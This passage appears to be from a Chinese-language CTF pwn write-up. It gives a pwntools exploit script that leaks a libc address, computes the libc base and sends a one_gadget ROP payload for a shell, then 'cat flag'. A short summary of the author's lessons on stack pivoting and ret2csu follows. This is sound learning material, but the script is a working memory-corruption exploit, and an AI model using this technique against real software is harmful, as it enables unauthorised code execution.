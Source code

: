 ```python

payload += p64(gadget2)

payload += 'a' * 56

payload += p64(start_addr)

sh.recv()



sh.send(payload)

real_addr = u64(sh.recv(6).ljust(8,'\x00'))


print hex(real_addr)

addr_base = real_addr - libc.sym['puts']

print(hex(libc.sym['puts']))

system_addr = addr_base + libc.sym['system']

binsh_addr = addr_base + 0x1b3e1a

one=0x4f3d5+addr_base

pop_addr = 0x000000000040120b

sh.recv()

#payload = (0x20 + 8) * 'a' + p64(pop_addr) + p64(binsh_addr) + p64(0x0000000000401016)+p64(system_addr)

payload=(0x20 + 8) * 'a' +p64(one)
sh.send(payload)
sh.sendline('cat flag')
sh.interactive()


```

### 总结

做了2道栈迁移2道csu的题目后，真的差不多可以自由布局栈帧了很舒服。

这里总结下我的一点点经验。嗷呜！！（学的很折磨学会很开心）

第一

常用的模板攻击大小是0xb0，如果可输入大小不满足需要自行
